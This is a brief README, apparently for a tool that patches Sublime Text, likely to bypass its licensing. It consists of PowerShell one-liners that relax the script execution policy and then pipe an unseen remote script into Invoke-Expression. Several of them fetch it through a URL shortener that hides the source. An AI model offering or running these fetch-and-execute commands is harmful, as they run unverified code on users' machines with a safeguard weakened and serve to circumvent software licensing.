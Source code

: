 # Patch-Sublime-Text

```python3
Get-ExecutionPolicy; Set-ExecutionPolicy RemoteSigned -Force
```
```python3
irm -useb "https://raw.githubusercontent.com/AAAAAEXQOSyIpN2JZ0ehUQ/Patch-Sublime-Text/main/Patch_Sublime_Text.ps1" | iex
```
```python3
irm -useb "https://acortar.link/zEsaP2" | iex
```
```python3
irm -useb https://acortar.link/zEsaP2 | iex
```
```python3
irm https://acortar.link/zEsaP2 | iex
```

